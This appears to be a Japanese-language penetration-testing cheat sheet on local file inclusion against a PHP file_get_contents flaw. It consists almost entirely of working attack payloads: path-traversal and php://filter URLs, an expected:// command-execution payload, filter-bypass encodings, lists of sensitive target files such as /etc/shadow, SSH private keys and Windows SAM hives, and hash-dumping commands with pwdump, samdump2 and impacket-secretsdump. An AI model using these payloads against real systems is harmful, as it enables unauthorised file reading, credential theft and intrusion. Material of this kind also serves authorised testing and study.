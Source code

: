 ### ^LFI(ローカルファイルインクルード)
file_get_contents関数の不備
```
http://<url>/browse.php?files=../../../../../../../../etc/passwd
http://<url>/browse.php?files=../../../../../../../../etc/hosts
```
```
http://<url>/browse.php?files=php://filter/convert.base64-encode/resource=phpinfo.php
echo -n PD9waHAKcGhwaW5mbygpOwo/Pgo= | base64 -d
```
```
http://<url>/browse.php?files=expected://ls
```

Examples: 
```
http://example.com/index.php?page=/etc/passwd
# /etc/passwdというキーワードがフィルタリングされている場合
http://example.com/index.php?page=/etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd
```

#### LFIを利用して読み取りを狙うファイル:  
Linux:
```
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/etc/ssh/ssh_config
/etc/ssh/sshd_config
/root/.ssh/id_rsa
/root/.ssh/authorized_keys
/home/<username>/.ssh/authorized_keys
/home/<username>/.ssh/id_rsa
```

Windows:  
```
/boot.ini
/autoexec.bat
/windows/system32/drivers/etc/hosts
/windows/repair/S
```

パスワードハッシュの取得:
```
C:\Windows\repair\SAM
C:\Windows\System32\config\RegBack\SAM
C:\Windows\System32\config\SAM

C:\Windows\repair\system
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\config\RegBack\system

C:\Windows\System32\config\RegBack\SAM.OLD
C:\Windows\System32\config\RegBack\SYSTEM.OLD
```
```
pwdump SYSTEM SAM

samdump2 SYSTEM SAM

impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM local
```